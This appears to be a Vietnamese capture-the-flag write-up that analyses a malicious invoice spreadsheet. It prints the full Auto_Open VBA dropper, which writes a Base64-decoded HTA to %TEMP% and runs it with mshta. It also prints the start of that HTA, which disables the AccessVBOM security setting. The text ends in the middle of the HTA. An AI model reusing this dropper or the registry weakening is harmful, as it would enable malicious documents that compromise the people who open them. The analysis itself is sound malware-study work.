







# Challenge oBfsC4t10n

## 1. Đầu vào challenge

Challenge cung cấp 1 file `invoice-42369643.html`.

Khi mở file này lên, thấy đường dẫn để tải file.



Khi có được file `invoice-42369643.xlsm`, mở ra thì thấy được 1 đoạn Base64.



Nhưng khi thử decode Base64 chưa thể ra chuỗi đúng.

Vậy thử dùng `olevba` để check xem trong file `.xlsm` này có macro để decode không.

```bash
olevba invoice-42369643.xlsm > macro.txt
```

Kết quả:

```text
===============================================================================
FILE: invoice-42369643.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Module1.bas 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Const clOneMask = 16515072
Private Const clTwoMask = 258048
Private Const clThreeMask = 4032
Private Const clFourMask = 63

Private Const clHighMask = 16711680
Private Const clMidMask = 65280
Private Const clLowMask = 255

Private Const cl2Exp18 = 262144
Private Const cl2Exp12 = 4096
Private Const cl2Exp6 = 64
Private Const cl2Exp8 = 256
Private Const cl2Exp16 = 65536

Public Function LeOyoqoF(sString As String) As String

    Dim bTrans(63) As Byte, lPowers8(255) As Long, lPowers16(255) As Long, bOut() As Byte, bIn() As Byte
    Dim lChar As Long, lTrip As Long, iPad As Integer, lLen As Long, lTemp As Long, lPos As Long, lOutSize As Long

    For lTemp = 0 To 63
        Select Case lTemp
            Case 0 To 25
                bTrans(lTemp) = 65 + lTemp
            Case 26 To 51
                bTrans(lTemp) = 71 + lTemp
            Case 52 To 61
                bTrans(lTemp) = lTemp - 4
            Case 62
                bTrans(lTemp) = 43
            Case 63
                bTrans(lTemp) = 47
        End Select
    Next lTemp

    For lTemp = 0 To 255
        lPowers8(lTemp) = lTemp * cl2Exp8
        lPowers16(lTemp) = lTemp * cl2Exp16
    Next lTemp

    iPad = Len(sString) Mod 3
    If iPad Then
        iPad = 3 - iPad
        sString = sString & String(iPad, Chr(0))
    End If

    bIn = StrConv(sString, vbFromUnicode)
    lLen = ((UBound(bIn) + 1) \ 3) * 4
    lTemp = lLen \ 72
    lOutSize = ((lTemp * 2) + lLen) - 1
    ReDim bOut(lOutSize)

    lLen = 0

    For lChar = LBound(bIn) To UBound(bIn) Step 3
        lTrip = lPowers16(bIn(lChar)) + lPowers8(bIn(lChar + 1)) + bIn(lChar + 2)
        lTemp = lTrip And clOneMask
        bOut(lPos) = bTrans(lTemp \ cl2Exp18)
        lTemp = lTrip And clTwoMask
        bOut(lPos + 1) = bTrans(lTemp \ cl2Exp12)
        lTemp = lTrip And clThreeMask
        bOut(lPos + 2) = bTrans(lTemp \ cl2Exp6)
        bOut(lPos + 3) = bTrans(lTrip And clFourMask)
        If lLen = 68 Then
            bOut(lPos + 4) = 13
            bOut(lPos + 5) = 10
            lLen = 0
            lPos = lPos + 6
        Else
            lLen = lLen + 4
            lPos = lPos + 4
        End If
    Next lChar

    If bOut(lOutSize) = 10 Then lOutSize = lOutSize - 2

    If iPad = 1 Then
        bOut(lOutSize) = 61
    ElseIf iPad = 2 Then
        bOut(lOutSize) = 61
        bOut(lOutSize - 1) = 61
    End If

    LeOyoqoF = StrConv(bOut, vbUnicode)

End Function

Public Function hdYJNJmt(sString As String) As String

    Dim bOut() As Byte, bIn() As Byte, bTrans(255) As Byte, lPowers6(63) As Long, lPowers12(63) As Long
    Dim lPowers18(63) As Long, lQuad As Long, iPad As Integer, lChar As Long, lPos As Long, sOut As String
    Dim lTemp As Long

    sString = Replace(sString, vbCr, vbNullString)
    sString = Replace(sString, vbLf, vbNullString)

    lTemp = Len(sString) Mod 4
    If lTemp Then
        Call Err.Raise(vbObjectError, "", "")
    End If

    If InStrRev(sString, "==") Then
        iPad = 2
    ElseIf InStrRev(sString, "=") Then
        iPad = 1
    End If

    For lTemp = 0 To 255
        Select Case lTemp
            Case 65 To 90
                bTrans(lTemp) = lTemp - 65
            Case 97 To 122
                bTrans(lTemp) = lTemp - 71
            Case 48 To 57
                bTrans(lTemp) = lTemp + 4
            Case 43
                bTrans(lTemp) = 62
            Case 47
                bTrans(lTemp) = 63
        End Select
    Next lTemp

    For lTemp = 0 To 63
        lPowers6(lTemp) = lTemp * cl2Exp6
        lPowers12(lTemp) = lTemp * cl2Exp12
        lPowers18(lTemp) = lTemp * cl2Exp18
    Next lTemp

    bIn = StrConv(sString, vbFromUnicode)
    ReDim bOut((((UBound(bIn) + 1) \ 4) * 3) - 1)

    For lChar = 0 To UBound(bIn) Step 4
        lQuad = lPowers18(bTrans(bIn(lChar))) + lPowers12(bTrans(bIn(lChar + 1))) + _
                lPowers6(bTrans(bIn(lChar + 2))) + bTrans(bIn(lChar + 3))
        lTemp = lQuad And clHighMask
        bOut(lPos) = lTemp \ cl2Exp16
        lTemp = lQuad And clMidMask
        bOut(lPos + 1) = lTemp \ cl2Exp8
        bOut(lPos + 2) = lQuad And clLowMask
        lPos = lPos + 3
    Next lChar

    sOut = StrConv(bOut, vbUnicode)
    If iPad Then sOut = Left$(sOut, Len(sOut) - iPad)
    hdYJNJmt = sOut

End Function

Sub Auto_Open()
    Dim fHdswUyK, GgyYKuJh
    Application.Goto ("JLprrpFr")
    GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
    
    Open GgyYKuJh For Output As #1
    Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
    Close #1
    
    fHdswUyK = "msh" & "ta " & GgyYKuJh
    x = Shell(fHdswUyK, 1)
End Sub

-------------------------------------------------------------------------------
VBA MACRO UZdcUQeJ.frm 
in file: xl/vbaProject.bin - OLE stream: 'VBA/UZdcUQeJ'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Private Sub Label1_Click()

End Sub
-------------------------------------------------------------------------------
VBA FORM STRING IN 'xl/vbaProject.bin' - OLE stream: 'UZdcUQeJ/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
 lvbk5hbWUgIiYiQXMgU3RyaW4iJiJnIiZDaHIoNDQpJiIgQnlWYWwgbCImInBDb21tYW5kIiYiTGluZSBBcyAiJiJTdHJpbmciJkNocig0NCkmIF8KIiBscFByb2NlIiYic3NBdHRyaWIiJiJ1dGVzIEFzICImIkFueSImQ2hyKDQ0KSYiIGxwVGhyZWEiJiJkQXR0cmlidSImInRlcyBBcyBBIiYibnkiJkNocig0NCkmIiBCeVZhbCBiIiYiSW5oZXJpdEgiJiJhbmRsZXMgQSImInMgTG9uZyImQ2hyKDQ0KSYiIEJ5VmFsIGQiJiJ3Q3JlYXRpbyImIm5GbGFncyBBIiYicyBMb25nIiZDaHIoNDQpJiIgbHBFbnZpciImIF8KIm9ubWVudCBBIiYicyBBbnkiJkNocig0NCkmIiBCeVZhbCBsIiYicEN1cnJlbnQiJiJEcmllY3RvciImInkgQXMgU3RyIiYiaW5nIiZDaHIoNDQpJiIgbHBTdGFydCImInVwSW5mbyBBIiYicyBTVEFSVFUiJiJQSU5GTyImQ2hyKDQ0KSYiIGxwUHJvY2UiJiJzc0luZm9ybSImImF0aW9uIEFzIiYiIFBST0NFU1MiJiJfSU5GT1JNQSImIlRJT04iJkNocig0MSkmIF8KIiBBcyBMb25nIiZDaHIoMTApJkNocigzNSkmIkVuZCBJZiImQ2hyKDEwKSZDaHIoMTApJiJTdWIgQXV0byImIl9PcGVuIiZDaHIoNDApJkNocig0MSkmQ2hyKDEwKSYiICAgIERpbSAiJiJteUJ5dGUgQSImInMgTG9uZyImQ2hyKDQ0KSYiIG15QXJyYXkiJiIgQXMgVmFyaSImImFudCImQ2hyKDQ0KSYiIG9mZnNldCAiJiJBcyBMb25nIiZDaHIoMTApJiIgICAgRGltICImIF8KInBJbmZvIEFzIiYiIFBST0NFU1MiJiJfSU5GT1JNQSImIlRJT04iJkNocigxMCkmIiAgICBEaW0gIiYic0luZm8gQXMiJiIgU1RBUlRVUCImIklORk8iJkNocigxMCkmIiAgICBEaW0gIiYic051bGwgQXMiJiIgU3RyaW5nIiZDaHIoMTApJiIgICAgRGltICImInNQcm9jIEFzIiYiIFN0cmluZyImQ2hyKDEwKSZDaHIoMTApJkNocigzNSkmIklmIFZCQTcgIiYgXwoiVGhlbiImQ2hyKDEwKSYiICAgIERpbSAiJiJyd3hwYWdlICImIkFzIExvbmdQIiYidHIiJkNocig0NCkmIiByZXMgQXMgIiYiTG9uZ1B0ciImQ2hyKDEwKSZDaHIoMzUpJiJFbHNlIiZDaHIoMTApJiIgICAgRGltICImInJ3eHBhZ2UgIiYiQXMgTG9uZyImQ2hyKDQ0KSYiIHJlcyBBcyAiJiJMb25nIiZDaHIoMTApJkNocigzNSkmIkVuZCBJZiImQ2hyKDEwKSYgXwoiICAgIG15QXIiJiJyYXkgIiZDaHIoNjEpJiIgQXJyYXkiJkNocig0MCkmQ2hyKDQ1KSYiMzUiJkNocig0NCkmQ2hyKDQ1KSYiNjMiJkNocig0NCkmQ2hyKDQ1KSYiNjUiJkNocig0NCkmIjMyIiZDaHIoNDQpJiI4NiImQ2hyKDQ0KSYiNjYiJkNocig0NCkmIjEyNiImQ2hyKDQ0KSZDaHIoNDUpJiIzOSImQ2hyKDQ0KSYiMTE2IiZDaHIoNDQpJiIzNiImQ2hyKDQ0KSYgXwpDaHIoNDUpJiIxMiImQ2hyKDQ0KSYiOTEiJkNocig0NCkmIjQ5IiZDaHIoNDQpJkNocig0NSkmIjU1IiZDaHIoNDQpJkNocig0NSkmIjc5IiZDaHIoNDQpJiI5OCImQ2hyKDQ0KSYiNDkiJkNocig0NCkmIjEyMyImQ2hyKDQ0KSYiMjQiJkNocig0NCkmIjMiJkNocig0NCkmIjEyMyImQ2hyKDQ0KSYiMjQiJkNocig0NCkmQ2hyKDQ1KSYiMTI1IiZDaHIoNDQpJiBfIApDaHIoNDUpJiI2MSImQ2hyKDQ0KSYiMzYiJkNocig0NCkmQ2hyKDQ1KSYiNzYiJkNocig0NCkmQ2hyKDQ1KSYiNzMiJkNocig0NCkmQ2hyKDQ1KSYiMTI2IiZDaHIoNDQpJkNocig0NSkmIjUyIiZDaHIoNDQpJkNocig0NSkmIjcwIiZDaHIoNDQpJiI1NiImQ2hyKDQ0KSYiMTIzIiZDaHIoNDQpJiIxMiImQ2hyKDQ0KSZDaHIoNDUpJiIzNyImQ2hyKDQ0KSZDaHIoNDUpJiBfIAoiNzkiJkNocig0NCkmQ2hyKDQ1KSYiOTgiJkNocig0NCkmIjYxIiZDaHIoNDQpJkNocig0NSkmIjM3IiZDaHIoNDQpJkNocig0NSkmIjkwIiZDaHIoNDQpJkNocig0NSkmIjIxIiZDaHIoNDQpJiIxMDkiJkNocig0NCkmQ2hyKDQ1KSYiMjEiJkNocig0NCkmQ2hyKDQ1KSYiODMiJkNocig0NCkmQ2hyKDQ1KSYiNjYiJkNocig0NCkmQ2hyKDQ1KSYiMTI3IiZDaHIoNDQpJiBfIApDaHIoNDUpJiIxMjgiJkNocig0NCkmQ2hyKDQ1KSYiMzIiJkNocig0NCkmIjQyIiZDaHIoNDQpJiIxOCImQ2hyKDQ0KSZDaHIoNDUpJiIyOCImQ2hyKDQ0KSYiNDQiJkNocig0NCkmIjkyIiZDaHIoNDQpJkNocig0NSkmIjEwOSImQ2hyKDQ0KSYiNjciJkNocig0NCkmIjExIiZDaHIoNDQpJiI4MyImQ2hyKDQ0KSYiMzYiJkNocig0NCkmQ2hyKDQ1KSYiMSImQ2hyKDQ0KSYgXyAKIjExMSImQ2hyKDQ0KSZDaHIoNDUpJiIxNCImQ2hyKDQ0KSZDaHIoNDUpJiI5MCImQ2hyKDQ0KSYiMiImQ2hyKDQ0KSZDaHIoNDUpJiI2OCImQ2hyKDQ0KSZDaHIoNDUpJiI0NCImQ2hyKDQ0KSZDaHIoNDUpJiIxMDUiJkNocig0NCkmQ2hyKDQ1KSYiNTIiJkNocig0NCkmQ2hyKDQ1KSYiNzkiJkNocig0NCkmIjIxIiZDaHIoNDQpJkNocig0NSkmIjQ4IiZDaHIoNDQpJiBfIAoiNDkiJkNocig0NCkmIjU5IiZDaHIoNDQpJiI3MSImQ2hyKDQ0KSZDaHIoNDUpJiIxMTkiJkNocig0NCkmIjYyIiZDaHIoNDQpJkNocig0NSkmIjE4IiZDaHIoNDQpJiIxMjAiJkNocig0NCkmQ2hyKDQ1KSYiNjYiJkNocig0NCkmIjExIiZDaHIoNDQpJiI1MSImQ2hyKDQ0KSZDaHIoNDUpJiIxNCImQ2hyKDQ0KSZDaHIoNDUpJiIxMTYiJkNocig0NCkmQ2hyKDQ1KSYgXyAKIjEwMiImQ2hyKDQ0KSYiNTEiJkNocig0NCkmQ2hyKDQ1KSYiMjUiJkNocig0NCkmIjY4IiZDaHIoNDQpJkNocig0NSkmIjEwMCImQ2hyKDQ0KSYiMTgiJkNocig0NCkmQ2hyKDQ1KSYiNzQiJkNocig0NCkmQ2hyKDQ1KSYiMzMiJkNocig0NCkmQ2hyKDQ1KSYiNTciJkNocig0NCkmQ2hyKDQ1KSYiNzYiJkNocig0NCkmIjU2IiZDaHIoNDQpJiIxMiImQ2hyKDQ0KSYgXyAKIjEyNCImQ2hyKDQ0KSZDaHIoNDUpJiIzIiZDaHIoNDQpJiIzNCImQ2hyKDQ0KSYiODEiJkNocig0NCkmQ2hyKDQ1KSYiNzEiJkNocig0NCkmQ2hyKDQ1KSYiNzMiJkNocig0NCkmQ2hyKDQ1KSYiMzkiJkNocig0NCkmQ2hyKDQ1KSYiOTUiJkNocig0NCkmIjUzIiZDaHIoNDQpJiI3MCImQ2hyKDQ0KSYiOCImQ2hyKDQ0KSZDaHIoNDUpJiI4IiZDaHIoNDQpJkNocig0NSkmIF8gCiI3NCImQ2hyKDQ0KSZDaHIoNDUpJiIyNyImQ2hyKDQ0KSYiMTE3IiZDaHIoNDQpJiI1MyImQ2hyKDQ0KSYiNjkiJkNocig0NCkmQ2hyKDQ1KSYiOSImQ2hyKDQ0KSZDaHIoNDUpJiI3OCImQ2hyKDQ0KSZDaHIoNDUpJiIxNSImQ2hyKDQ0KSZDaHIoNDUpJiI3NCImQ2hyKDQ0KSZDaHIoNDUpJiIxMjYiJkNocig0NCkmQ2hyKDQ1KSYiNTQiJkNocig0NCkmIjIiJiBfIApDaHIoNDQpJiI3NCImQ2hyKDQ0KSZDaHIoNDUpJiIxMDciJkNocig0NCkmIjgiJkNocig0NCkmIjEyMSImQ2hyKDQ0KSZDaHIoNDUpJiIxMTIiJkNocig0NCkmIjE2IiZDaHIoNDQpJkNocig0NSkmIjExNyImQ2hyKDQ0KSZDaHIoNDUpJiIzOSImQ2hyKDQ0KSYiODMiJkNocig0NCkmQ2hyKDQ1KSYiMTI2IiZDaHIoNDQpJiIxMTkiJkNocig0NCkmQ2hyKDQ1KSYgXyAKIjQwIiZDaHIoNDQpJkNocig0NSkmIjgwIiZDaHIoNDQpJiI4NSImQ2hyKDQ0KSZDaHIoNDUpJiIxMyImQ2hyKDQ0KSZDaHIoNDUpJiI0MiImQ2hyKDQ0KSYiMTI1IiZDaHIoNDQpJiIxNyImQ2hyKDQ0KSYiOTEiJkNocig0NCkmQ2hyKDQ1KSYiNiImQ2hyKDQ0KSZDaHIoNDUpJiIxMjgiJkNocig0NCkmQ2hyKDQ1KSYiMTAiJkNocig0NCkmQ2hyKDQ1KSYiNDEiJiBfIApDaHIoNDQpJiI2IiZDaHIoNDQpJiI4IiZDaHIoNDQpJkNocig0NSkmIjciJkNocig0NCkmIjU1IiZDaHIoNDQpJkNocig0NSkmIjExMyImQ2hyKDQ0KSYiNzQiJkNocig0NCkmQ2hyKDQ1KSYiMzQiJkNocig0NCkmQ2hyKDQ1KSYiMTA5IiZDaHIoNDQpJkNocig0NSkmIjQ0IiZDaHIoNDQpJiI5IiZDaHIoNDQpJiIxMjciJkNocig0NCkmQ2hyKDQ1KSYiMTIzIiYgXyAKQ2hyKDQ0KSZDaHIoNDUpJiI4MCImQ2hyKDQ0KSZDaHIoNDUpJiI0IiZDaHIoNDQpJkNocig0NSkmIjEyOCImQ2hyKDQ0KSZDaHIoNDUpJiI0MyImQ2hyKDQ0KSYiMjciJkNocig0NCkmQ2hyKDQ1KSYiOTYiJkNocig0NCkmIjM2IiZDaHIoNDQpJkNocig0NSkmIjk5IiZDaHIoNDQpJkNocig0NSkmIjc5IiZDaHIoNDQpJkNocig0NSkmIjc1IiZDaHIoNDQpJiI4NCImIF8gCkNocig0NCkmQ2hyKDQ1KSYiNCImQ2hyKDQ0KSZDaHIoNDUpJiIzNSImQ2hyKDQ0KSYiMTIyIiZDaHIoNDQpJiI4NSImQ2hyKDQ0KSZDaHIoNDUpJiIxIiZDaHIoNDQpJiIyOSImQ2hyKDQ0KSYiMjEiJkNocig0NCkmQ2hyKDQ1KSYiMTgiJkNocig0NCkmQ2hyKDQ1KSYiMTE2IiZDaHIoNDQpJiI0NyImQ2hyKDQ0KSZDaHIoNDUpJiI3MCImQ2hyKDQ0KSYiNjgiJiBfIApDaHIoNDQpJiIyNyImQ2hyKDQ0KSYiMyImQ2hyKDQ0KSYiNTEiJkNocig0NCkmIjY3IiZDaHIoNDQpJkNocig0NSkmIjM2IiZDaHIoNDQpJiIxMDAiJkNocig0NCkmIjExMCImQ2hyKDQ0KSYiNTEiJkNocig0NCkmIjExNCImQ2hyKDQ0KSZDaHIoNDUpJiIxMDEiJkNocig0NCkmQ2hyKDQ1KSYiMTExIiZDaHIoNDQpJiI2OCImQ2hyKDQ0KSYiOTAiJkNocig0NCkmIF8gCiI5NSImQ2hyKDQ0KSZDaHIoNDUpJiI1OSImQ2hyKDQ0KSYiMjAiJkNocig0NCkmQ2hyKDQ1KSYiMTIiJkNocig0NCkmIjExOCImQ2hyKDQ0KSYiMTAyIiZDaHIoNDQpJkNocig0NSkmIjEiJkNocig0NCkmIjQiJkNocig0NCkmIjExOSImQ2hyKDQ0KSZDaHIoNDUpJiI3NyImQ2hyKDQ0KSYiODAiJkNocig0NCkmIjg1IiZDaHIoNDQpJkNocig0NSkmIjQxIiZDaHIoNDQpJiBfIAoiMTA4IiZDaHIoNDQpJiIxNyImQ2hyKDQ0KSYiNSImQ2hyKDQ0KSZDaHIoNDUpJiIxMDUiJkNocig0NCkmQ2hyKDQ1KSYiMzYiJkNocig0NCkmQ2hyKDQ1KSYiNyImQ2hyKDQ0KSYiNzkiJkNocig0NCkmIjI0IiZDaHIoNDQpJiIyIiZDaHIoNDQpJiIyNSImQ2hyKDQ0KSYiMTEyIiZDaHIoNDQpJkNocig0NSkmIjEzIiZDaHIoNDQpJiI0MyImQ2hyKDQ0KSYiNTAiJiBfIApDaHIoNDQpJkNocig0NSkmIjg4IiZDaHIoNDQpJkNocig0NSkmIjUiJkNocig0NCkmIjgzIiZDaHIoNDQpJkNocig0NSkmIjYxIiZDaHIoNDQpJkNocig0NSkmIjQ2IiZDaHIoNDQpJkNocig0NSkmIjExNSImQ2hyKDQ0KSYiNTgiJkNocig0NCkmQ2hyKDQ1KSYiODEiJkNocig0NCkmIjQ5IiZDaHIoNDQpJiIyMSImQ2hyKDQ0KSZDaHIoNDUpJiI0NiImQ2hyKDQ0KSYgXyAKIjY2IiZDaHIoNDQpJiI0MyImQ2hyKDQ0KSZDaHIoNDUpJiI2OCImQ2hyKDQ0KSYiNjYiJkNocig0NCkmQ2hyKDQ1KSYiNzciJkNocig0NCkmQ2hyKDQ1KSYiNTkiJkNocig0NCkmIjgxIiZDaHIoNDQpJkNocig0NSkmIjc2IiZDaHIoNDQpJkNocig0NSkmIjEyNSImQ2hyKDQ0KSYiNzciJkNocig0NCkmQ2hyKDQ1KSYiMT{
-------------------------------------------------------------------------------
VBA FORM Variable "b'yTJtzjKX'" IN 'xl/vbaProject.bin' - OLE stream: 'UZdcUQeJ'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
None
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Auto_Open           |Runs when the Excel Workbook is opened       |
|AutoExec  |Label1_Click        |Runs when the file is opened and ActiveX     |
|          |                    |objects trigger events                       |
|Suspicious|Environ             |May read system environment variables        |
|Suspicious|Open                |May open a file                              |
|Suspicious|Write               |May write to a file (if combined with Open)  |
|Suspicious|Output              |May write to a file (if combined with Open)  |
|Suspicious|Shell               |May run an executable file or a system       |
|          |                    |command                                      |
|Suspicious|Call                |May call a DLL using Excel 4 Macros (XLM/XLF)|
|Suspicious|Chr                 |May attempt to obfuscate specific strings    |
|          |                    |(use option --deobf to deobfuscate)          |
|Suspicious|Hex Strings         |Hex-encoded strings were detected, may be    |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|Suspicious|Base64 Strings      |Base64-encoded strings were detected, may be |
|          |                    |used to obfuscate strings (option --decode to|
|          |                    |see all)                                     |
|IOC       |LwTHLrGh.hta        |Executable file name                         |
+----------+--------------------+---------------------------------------------+
```

## 2. Phân tích VBA macro

### 2.1. Phân tích `Auto_Open()`

- Trong macro có entrypoint `Auto_Open()` chứa lệnh tạo đường dẫn tới file HTA trong thư mục `%TEMP%`:

```vb
GgyYKuJh = Environ("temp") & "\LwTHLrGh.hta"
Open GgyYKuJh For Output As #1
```

- Dòng đáng chú ý nhất là macro ghi kết quả của hàm `hdYJNJmt()` ra file:

```vb
Write #1, hdYJNJmt(ActiveSheet.Shapes(2).AlternativeText & UZdcUQeJ.yTJtzjKX & Selection)
```

- Có nhiều đoạn nhìn giống Base64, nhưng decode trực tiếp từng đoạn thì không ra payload hoàn chỉnh. Nguyên nhân là macro không dùng một chuỗi duy nhất, mà ghép payload từ nhiều nguồn:

  - `ActiveSheet.Shapes(2).AlternativeText`
  - `UZdcUQeJ.yTJtzjKX`
  - `Selection`

- Hàm `hdYJNJmt()` có logic giống Base64 decoder: xóa CR/LF, kiểm tra độ dài chia hết cho 4, xử lý padding `=` rồi decode dữ liệu:

```vb
sString = Replace(sString, vbCr, vbNullString)
sString = Replace(sString, vbLf, vbNullString)

lTemp = Len(sString) Mod 4
If lTemp Then
    Call Err.Raise(vbObjectError, "", "")
End If
```

- Sau khi ghi payload ra file HTA, macro gọi `mshta` để thực thi file đó:

```vb
fHdswUyK = "msh" & "ta " & GgyYKuJh
x = Shell(fHdswUyK, 1)
```

### 2.2. Kết luận

Có thể nghi ngờ macro đang che giấu payload bằng cách chia nhỏ Base64 ở nhiều vị trí trong file Excel, sau đó ghép lại, decode bằng hàm VBA tự viết và ghi ra file `LwTHLrGh.hta` để thực thi bằng `mshta`. Vì ViperMonkey gốc không resolve được đầy đủ các object như `ActiveSheet.Shapes`, UserForm property và `Selection`.

Vì vậy thử sửa tool ViperMonkey gốc để mô phỏng thêm context của Excel/OOXML, từ đó reconstruct được payload hoàn chỉnh và xác nhận hành vi drop-and-execute.

Có thể tải tool ở đây: `Simulation-VBA`.

Sau khi chạy `Simulation-VBA` với file `invoice-42369643.xlsm`, tool mô phỏng process thực thi macro và tự động dump payload được ghi bởi lệnh `Write #1`. Kết quả thu được file `LwTHLrGh.hta`.



## 3. Phân tích file `LwTHLrGh.hta`

Khi check bằng lệnh:

```bash
file LwTHLrGh.hta
```

Khi kiểm tra bằng lệnh `file`, ta thấy `LwTHLrGh.hta` thực chất là một HTML document dạng ASCII text, không phải file PE/exe thông thường.



Mở ra xem thử thì thu được nội dung:

```vbscript
<html><head><script language="vbscript">
Dim objExcel, WshShell, RegPath, action, objWorkbook, xlmodule

Set objExcel = CreateObject("Excel.Application")
objExcel.Visible = False

Set WshShell = CreateObject("Wscript.Shell")

function RegExists(regKey)
        on error resume next
        WshShell.RegRead regKey
        RegExists = (Err.number = 0)
end function

' Get the old AccessVBOM value
RegPath = "HKEY_CURRENT_USER\Software\Microsoft\Office\" & objExcel.Version & "\Excel\Security\AccessVBOM"

if RegExists(RegPath) then
        action = WshShell.RegRead(RegPath)
else
        action = ""
end if

' Weaken the target
WshShell.RegWrite RegPath, 1, "REG_DWORD"

' Run the macro
Set objWorkbook = objExcel.Workbooks.Add()
Set xlmodule = objWorkbook.VBProject.VBComponents.Add(1)
